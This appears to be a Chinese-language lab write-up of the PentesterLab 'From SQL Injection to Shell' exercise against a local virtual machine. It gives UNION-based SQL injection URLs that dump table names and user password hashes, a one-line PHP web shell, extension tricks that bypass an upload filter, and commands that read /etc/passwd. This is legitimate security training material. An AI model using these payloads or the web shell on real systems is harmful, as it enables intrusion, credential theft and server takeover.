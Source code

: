 # 从SQL注入到Shell

## 实验环境

下载ISO镜像并装入虚拟机

![](Images/e2.jpg)

设置虚拟机网络端口转发规则

![](Images/e3.png)

设置宿主机浏览器的代理服务器

![](Images/e1.jpg)

使用宿主机浏览器访问服务器

![](Images/e4.png)

## 实验过程

### 收集信息

通过http响应报文头，可以收集服务器的的相关信息，如PHP版本信息等

![](Images/11.png)

### 检测并利用SQL注入

**通过整数检测SQL注入**

http://127.0.0.1:8080/cat.php?id=1 和 http://127.0.0.1:8080/cat.php?id=2-1 返回的页面相同，则说明数据库直接做了减法，而并没有对这种输入做出过滤处理，因此存在SQL注入的可能性

**通过字符串检测SQL注入**

- 使用偶数个```'```来测试，奇数个单引号一般会导致语法错误
- 使用```--```把查询语句的后部注销掉
- 使用```and '1'='1```（不改变查询语句的语义）和```and '1'='0```（改变查询语句的语义），对比发现漏洞

**使用UNION关键字进行SQL注入**

- 利用UNION前后的select语句返回列数必须相同，可以递增查询列数从而检测出数据库该查询语句会查询多少列

  - 如图，当猜测列数为2时，返回列数不相同的报错信息。只有当猜测列数为4时，会返回正确结果

![](Images/22.png)  
![](Images/21.png)

- 也可以使用```order by ```语句来检测查询列的数目

  - 如图当排序的数目大于4时，会返回报错信息

![](Images/23.png)

**通过SQL注入得到信息**

结合已经得到的查询列数信息，可以通过```@@version```，```current_user()```和```database()```获得数据库版本信息、当前用户信息以及数据库名

![](Images/31.png)
![](Images/32.png)
![](Images/33.png)

此外，还可以获得所有表名、列名以及表和列间的对应关系

http://127.0.0.1:8080/cat.php?id=3%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables

![](Images/34.png)

http://127.0.0.1:8080/cat.php?id=3%20UNION%20SELECT%201,concat(table_name,%27:%27,%20column_name),3,4%20FROM%20information_schema.columns

![](Images/37.png)

- 从上述信息中我们可以找到users表中有login和password字段，把它们查询出来

http://127.0.0.1:8080/cat.php?id=3%20union%20select%201,concat(login,%27:%27,password),3,4%20from%20users

![](Images/36.png)

### 进入管理页面并执行代码

- 将刚刚得到的密码哈希值在线解密，得到密码为```P4ssw0rd```，成功登陆管理员账户

![](Images/41.png)

- 找到文件上传界面，上传一个php脚本。把php脚本与网页服务器web目录下的正常文件放在相同路径下，可以在浏览器端实现命令执行环境，从而控制服务器

![](Images/42.png)

```php
<?php
  system($_GET['cmd']);
  ?>
```

- 但是网站返回提示信息，禁止上传PHP文件。可以有如下两种方式绕过PHP过滤

  - ```.php3```后缀可以绕过对```.php```后缀的过滤
  - ```.php.test```也可以绕过```.php```过滤，Apache服务器会依然把它当做PHP文件

![](Images/43.png)

- 上传成功后，点开该文件，查看该页面源代码，可以看到php文件在服务器上的存储路径

![](Images/44.png)

![](Images/45.png)

- 访问该路径并通过cmd参数，可以获取服务器的大量信息，并执行代码
  - 如通过```ls```得到当前目录或上级目录信息
  - 通过```cat /etc/passwd```得到系统用户列表
  - 通过```cat /etc/hosts```等指令可以查看主机信息，更改网络配置，甚至重启系统

![](Images/46.png)

![](Images/47.png)

## 参考链接  
  - [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
